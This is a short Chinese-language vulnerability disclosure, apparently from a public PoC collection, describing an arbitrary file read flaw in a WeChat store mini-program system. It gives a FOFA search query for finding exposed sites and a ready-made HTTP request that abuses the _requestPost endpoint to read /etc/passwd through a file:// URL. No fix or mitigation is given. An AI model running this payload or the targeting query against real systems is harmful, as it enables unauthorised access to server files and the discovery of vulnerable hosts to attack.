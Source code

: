 # 微信万能门店小程序系统_requestPost存在任意文件读取漏洞
万能门店微信小程序不限制小程序生成数量，支持多页面，预约功能等。 本套源码包含多商户插件、点餐插件、拼团插件、积分兑换、小程序手机客服等全套十个插件模块。支持后台一键扫码上传小程序，和后台通用模板。微信万能门店小程序系统存在任意文件读取漏洞

## fofa
```javascript
"/comhome/cases/index.html" 
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1732115890021-a19be87f-f478-4ee9-971e-bdbeb555e80f.png)

## poc
```java
GET /api/wxapps/_requestPost?url=file:///etc/passwd&data=1 HTTP/2
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1732115844099-9921c837-e60b-49bb-abba-ee32694c6075.png)

